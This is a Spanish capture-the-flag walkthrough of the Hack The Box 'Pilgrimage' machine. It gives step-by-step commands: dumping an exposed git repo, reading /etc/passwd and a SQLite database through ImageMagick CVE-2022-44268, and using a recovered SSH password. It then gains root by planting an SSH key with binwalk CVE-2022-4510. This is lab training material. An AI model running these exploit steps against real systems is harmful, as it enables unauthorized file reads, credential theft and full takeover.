# Pilgrimage



Launchpad: Bullseye
Whatweb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.13.246], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]

- Discovery
- Directorios



- Subdominios -> Nada
- /vendor -> forbidden
- /tmp -> forbidden
- /assets -> forbidden

Web-> Vemos varias pantallas importantes

- Home
Nos permite subir un archivo de imagen para encogerlo
La url
```bash
http://pilgrimage.htb/?message=http://pilgrimage.htb/shrunk/6a282e87b3ccf.jpeg&status=success
```

El parámetros status cambia el color el mensaje con el enlace hacia la imagen encogida según si *success* o *fail*

Hay un directorio /shrunk al que no tenemos acceso *403 forbidden* a no ser que accedamos directamente al archivo de la imagen

Intentamos subir algún archivo malicioso pero no tiene pinta a simple vista de que vaya por ahí, controla los archivos php y solo deja imágenes

- Login:
Nos permite loguearnos


No tenemos credenciales a priori

- Register:
Podremos registrarnos con un usuario y una contraseña para acceder a un dashboard con las conversiones de imágenes que hagamos mientras estemos registrados



- Podemos suponer que la web usa por detrás php aunque no se informe, porque si ponemos index.php resuelve la dirección al home, en cambio si ponemos index.html NO resuelve

- El identificador que se asigna a la ruta de las imágenes que se transforman tienen toda la pinta de una función en php
```php
uniqid();
```



Ese identificador empieza igual que los de las rutas generadas para las imágenes porque se basa en el time que han sido creadas
*/6a28393acdf02.jpeg*
*/6a283a586a377.jpeg*

- El uno script de descubrimiento que no he corrido
```bash
sudo nmap --script http-enum 10.129.13.246
```



- Usaremos git-dumper para recomponer el repo
```bash
git clone https://github.com/arthaud/git-dumper.git
```

nos crearemos un entorno virtual
```bash
python3 -m venv venv
source venv/bin/activate
```

Dependencias
```bash
python -m pip install -r requirements.txt
```

```bash
python3 git_dumper.py http://pilgrimage.htb pilgrimage
```

```bash
deactivate
```

para el venv

- Hemos reconstruido el repo



-
```bash
git log
```



```bash
git show e1a40beebc7035212efdcb15476f9c994e3634a7
```



No vemos nada raro

- Información que obtenemos
- Db -> /var/db/pilgrimage

- Revisamos el archivo */assets/bulletproof.php* que es el que parece que se encarga de proteger los archivos que se suben -> hace comprobaciones pero nada interesante

- El servidor usa *magick* que es el bianrio que se encarga de shrinkear la imagen, vamos a intentar buscar alguna vulnerabilidad
Vemos que tiene un *Arbitrary File Read* conocido -> CVE-2022-44268

- Buscamos CVE-2022-44268 github poc
https://github.com/entr0pie/CVE-2022-44268
1.
```bash
python3 CVE-2022-44268.py /etc/passwd
```

El exploit coge la *source.png* y le mete en el metadato *Profile* el archivo que le pasemos que queramos leer



2. Se la pasamos al servidor y una vez procesada con magick en teoría nos devuelve el contenido el arbitrary read en hexadecimal al descargar la imagen procesada
3. Nos descargamos la imagen y le hacemos
```bash
identify -verbose 6a290d5c724e1.png
```



4. Decodificar
```bash
echo '.....' | xxd -r -p
```

-r: reverse (deshacer hex)
-p: plain hex dump
Le incluimos un
```bash
| grep bash
```

para quedarnos con los usuarios del /etc/passwd



Nos leakea la información

- Vamos a enumerar algún archivo sensible revisando el código recompuesto de git
En *login.php* por ejemplo, vemos que **sqlite** atenta contra un archivo **sqlite:/var/db/pilgrimage**



- Enumeraremos este archivo
```bash
python3 CVE-2022-44268.py /var/db/pilgrimage
```

- Al descargar la imagen filtramos solo por la cadena en hexadecimal para volcarla en un archivo
```bash
identify -verbose 6a290fd82ab8c.png | grep "53514c69746520666f726d" -A 568 | xxd -r -p > data
```

```bash
file data
```

archivo de tipo *data: SQLite 3.x database*

- Leeremos el archivo con sqlite
```bash
sqlite3 data
```

```
.tables
```

images users
```
select * from users
```



emily:abigchonkyboi123

- Probamos por ssh
```bash
ssh emily@10.129.13.246
```

emily

## Escalada

- Encontramos un proceso ejecutado por root que ejecuta un binario en bash */usr/sbin/malwarescan.sh*



- Emplea binwalk como root



- Encontramos un posible path traversal por internet
https://infayer.com/archivos/1626

Viajamos hacia el directorio */home/emily/.config/binwalk*



Nos descargamos el poc de la web para pasarle el *binwalk* con los parámetros
https://github.com/ReFirmLabs/binwalk/files/9873311/poc.zip
```bash
cd /home/emily
binwalk -M -e /tmp/poc.zip
```

-M: escanear recursivamente archivos extraidos
-e: extraer automáticamente archivos de tipos conocidos
No da resultado

- Vamos a buscar la versión de binwalk para buscar un exploit más específico
```bash
binwalk --version
```

No funciona
```bash
binwalk --help
```

v2.3.2
https://github.com/adhikara13/CVE-2022-4510-WalkingPath.git

- Consultando el script **walkingpath.py** vemos que hay una vía de escalada por ssh, donde aparece una cadena en hexadecimal que parece incluir una pub_key */.ssh/authorized_keys* para poder conectarnos como root sin contraseña





Nos pide una clave pública y una imagen

- Cogeremos una imagen de prueba y generaremos un par de claves pública y privada para pasarsela al script
```bash
ssh-keygen -t rsa -b 4096
```

para rsa

- Generamos la imagen maliciosa
```bash
python3 walkingpath.py ssh test.png /home/qarlg/.ssh/id_rsa.pub
```

Se nos genera *binwalk_exploit.png*

- Para que triggeree el proceso *malwarescan.sh* ejecutado por root que está a la escucha con el comando **/usr/bin/inotifywait** en el directorio */var/www/pilgrimage.htb/shrunk/*, tendremos que subir un archivo precisamente a ese directorio, que es en el que la web subía las fotos una vez procesadas por magick
Subimos imagen al servidor pasandola de nuestro kali a la MVíctima por wget en el directorio */var/www/pilgrimage.htb/shrunk/*
```bash
cd /var/www/pilgrimage.htb/shrunk/
python3 -m http-server 80
```



- Nuestra id_rsa.pub ya debería estar incluida en */.ssh/authorized_keys*

Intentamos conectarnos por ssh
```bash
ssh root@10.129.13.246 -i id_rsa
```

root
